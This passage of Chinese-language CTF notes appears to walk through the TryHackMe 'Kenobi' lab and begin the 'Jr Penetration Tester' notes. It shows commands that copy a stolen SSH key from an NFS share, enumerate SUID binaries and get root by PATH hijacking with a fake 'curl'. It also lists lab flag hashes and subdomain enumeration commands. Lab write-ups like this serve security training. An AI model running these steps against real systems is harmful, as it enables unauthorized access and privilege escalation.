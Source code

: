 获取私钥

```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.70.225
```



d0b0f3f53b6caa532a83915e19224899

#### root

提权还是比较容易的，环境变量劫持

* SUID
*  `find / -perm -u=s -type f 2>/dev/null`

发现存在一个 `menu` 命令，运行一下，有三个选项

```
# strings 命令查看二进制文件的字符串
strings /usr/bin/menu
```

发现调用了`curl` 命令

* ```shell
  cd /tmp
  echo "/bin/sh">curl
  chmod 777 curl
  export PATH=/tmp:$PATH
  /usr/bin/menu
  ```

拿到root

177b3cd8562289f37382721c28381f02



## Jr Penetration Tester

### 子域名

* [crt.sh](https://crt.sh/)  证书颁发机构创建的ssl证书

* google 

  ```
  site:*domain.com
  ```

* brute force

* ```
  sublist3r.py -d acmeitsupport.thm
  ```
